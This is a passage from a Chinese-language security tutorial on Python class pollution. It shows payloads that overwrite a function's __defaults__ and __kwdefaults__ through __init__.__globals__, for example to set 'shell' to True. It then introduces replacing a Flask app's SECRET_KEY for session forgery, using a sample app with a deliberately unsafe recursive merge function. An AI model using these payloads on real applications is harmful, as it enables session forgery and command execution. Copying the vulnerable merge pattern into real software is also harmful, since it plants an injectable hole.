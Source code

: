 所以我们就可以通过替换该属性，来实现对函数位置或者是键值默认值替换，但是前提条件是我们要替换的值是元组的形式：\`

```plain
payload = {
    "__init__" : {
        "__globals__" : {
            "demo" : {
                "__defaults__" : (True,)
            }
        }
    }
}
```

`__kwdefaults__`是以字典形式来进行收录：

```plain
payload = {
    "__init__" : {
        "__globals__" : {
            "demo" : {
                "__kwdefaults__" : {
                    "shell" : True
                }
            }
        }
    }
}
```

## 关键信息替换：

### flask密钥替换：

如果我们可以对密钥进行替换，赋值为我们想要的，我们就可以进行任意的session伪造，这里因为secret\_key是在当前入口文件下面的，所以我们可以直接通过`__init__.__globals__`获取全局变量，然后通过app.config\["SECRET\_KEY"\]来进行污染：下面用一下师傅的示范的板子

```plain
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
```